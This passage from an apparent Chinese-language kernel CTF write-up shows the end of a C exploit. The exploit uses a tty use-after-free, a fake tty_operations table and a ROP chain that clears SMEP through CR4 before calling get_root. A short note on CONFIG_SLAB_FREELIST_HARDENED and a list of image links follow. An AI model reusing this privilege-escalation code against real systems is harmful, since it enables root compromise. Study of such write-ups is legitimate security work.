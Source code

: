 ```C
        if(data[0] == 0x100005401){
            uaf_fd = i;
            printf("uaf_fd: %d\n", uaf_fd);
            break;
        }
    }
    
    unsigned long fake_tty[20]={0};
    fake_tty[7] = X_A_S;  //tty_write
    
    void *fake_addr = mmap((void *)(X_A_S & 0xfffff000), 0x4000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON | MAP_FIXED, -1, 0);
    
    int i=0;
    unsigned long rop[10] = {0};
    rop[i++] = 0xffffffff8107f460; //pop_rdi_ret
    rop[i++] = 0x6e0;
    rop[i++] = 0xffffffff8101f2f0; //mov_rc4_rdi_pop_rbp_ret
    rop[i++] = 0;
    rop[i++] = (unsigned long)get_root;

    memcpy((unsigned long*)(X_A_S & 0xffffffff), rop, sizeof(rop));
    memcpy((unsigned long*)(fake_addr+0x2000), fake_tty, sizeof(fake_tty));
    data[3] = (unsigned long)(fake_addr+0x2000); //tty_operations
    edit(fd, 0, data, 0x20);

    char buf[8] = {0};
    write(tty_fd[uaf_fd], buf, 8);

    return 0;
}
```

![image_1e6arvrf11sodt53eamhob163vm.png-117kB][7]

### 附加知识
#### 编译选项 CONFIG_SLAB_FREELIST_HARDENED 

在这个配置下,`include/linux/slub_def.h`文件里的 `kmem_cache` 增加了一个变量`random`。
```C
struct kmem_cache {
	struct kmem_cache_cpu __percpu *cpu_slab;
	[...]
#ifdef CONFIG_SLAB_FREELIST_HARDENED
    unsigned long random;
#endif
}
```

在`mm/slub.c`文件, `kmem_cache_open()`函数给`random`字段一个随机数


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png